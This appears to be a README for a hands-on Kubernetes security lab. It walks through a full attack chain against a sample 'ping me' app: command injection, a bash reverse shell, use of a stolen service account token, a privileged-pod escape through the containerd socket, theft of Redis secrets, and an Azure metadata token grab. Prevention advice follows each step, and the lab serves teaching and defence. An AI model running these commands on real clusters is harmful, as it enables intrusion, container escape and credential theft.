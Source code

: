 # Hijack Kubernetes Hands-on

## Play with the sample app

The sample application "ping me" pings a target specified via the input field. Try the following inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you can see in the answer, it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we can try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>

## Hijack the container

We now inject into the container via a reverse shell. Try to execute the following snippets:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This will allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>

## Get access to the Kubernetes API

Let's see if we can access the API server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API server.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and have some access. Now let's check if we have access to other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack the Kubernetes Node

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Run the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod -- /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to create a privileged pod and "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Deny hostPath mounts
* Things we already talked about
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Access secrets and data from another container

We will now try to retrieve secrets from a container that we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "87a94228f133e2da99cb16d653cd1373c5b4e8689956386c1c12b60a20421a02" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```


With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd CLI to access details of a container running on this node.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "87a94228f133e2da99cb16d653cd1373c5b4e8689956386c1c12b60a20421a02" | awk '{print $1}')
```

And then request container runtime details such as environment variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Deny hostPath mounts
* Things we already talked about
  * Limit egress access to other cloud resources
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>

## Hijack Cloud resources

We can also use the underlying cloud identity and try to escape even further. Run the following snippet to get a valid cloud provider token (in our case the Client ID of the underlying Managed Identity):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /tmp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /tmp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq
```

We could now use the secret to talk to the cloud provider management plane (in our case Azure Resource Manager) and try to create or access further resources.

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First, we need to mount the local node's file system to access the underlying identity ID:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We can now retrieve the cloud identity used and request a valid token via the cloud metadata service (in our case Azure Instance Metadata Service):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /tmp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /tmp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq
```

We could now use the secret to talk to the cloud provider management plane (in our case Azure Resource Manager) and try to create or access further resources.

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
